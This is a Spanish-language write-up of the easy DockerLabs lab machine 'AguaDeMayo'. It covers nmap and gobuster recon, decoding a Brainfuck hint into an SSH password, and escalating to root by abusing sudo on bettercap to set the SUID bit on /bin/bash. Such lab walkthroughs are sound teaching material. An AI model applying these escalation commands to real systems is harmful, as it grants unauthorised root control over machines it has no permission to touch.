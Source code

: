 ```yaml
---
layout: post
title: "AguaDeMayo"
date: 2024-08-16 14:40:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> AguaDeMayo </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/aguademayo/host.png){:.margin}

**1\.** Escaneo los puertos abiertos de la maquina.

`sudo nmap -p- --open -sS -T5 --min-rate=5000 -sCV -Pn -n 172.17.0.2`

![img](/notas/public/img/dockerlabs/aguademayo/nmap.png){:.margin}

**2\.** Tengo apache por defecto en la web, pero por debajo en el codigo fuente tenemos un mensaje oculto en codigo Brainfuck.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/aguademayo/80.png){:.margin}
![img](/notas/public/img/dockerlabs/aguademayo/80code.png){:.margin}

**3\.** Decodeamos el mensaje con esta herramienta online [dcode](https://www.dcode.fr/brainfuck-language).

![img](/notas/public/img/dockerlabs/aguademayo/dcode.png){:.margin}

**4\.** Hago un poco de fuzzing y encuentro una ruta de imagenes.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt -q`

![img](/notas/public/img/dockerlabs/aguademayo/gobuster.png){:.margin}

**5\.** Me descargo la imagen que tenemos en la ruta para analizarlo.

`http://172.17.0.2/images/`

![img](/notas/public/img/dockerlabs/aguademayo/images.png){:.margin}

_No encontre nada en sus metadatos_

**6\.** Lo proximo fue que me fije en el nombre, dice agua y luego ssh, probe con usuario agua y la contraseña bebeaguaqueessano.

`http://172.17.0.2/images/agua_ssh.jpg`

`ssh agua@172.17.0.2`

![img](/notas/public/img/dockerlabs/aguademayo/agua.png){:.margin}
![img](/notas/public/img/dockerlabs/aguademayo/ssh.png){:.margin}

**7\.** El usuario tiene un binario con permisos de sudo.

`sudo -l`

![img](/notas/public/img/dockerlabs/aguademayo/sudol.png){:.margin}

**8\.** En el panel de ayuda de bettercap nos indica como ejecutar comandos, en realidad ya somos root.

`sudo /usr/bin/bettercap`

`help`

![img](/notas/public/img/dockerlabs/aguademayo/bettercaphelp.png){:.margin}

**9\.** Para tener la tipica bash, hacemos lo siguiente: estando en bettercap como root le damos permisos suid a la bash y listo.

`!chmod u+s /bin/bash`

`quit`

`/bin/bash -p`

![img](/notas/public/img/dockerlabs/aguademayo/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>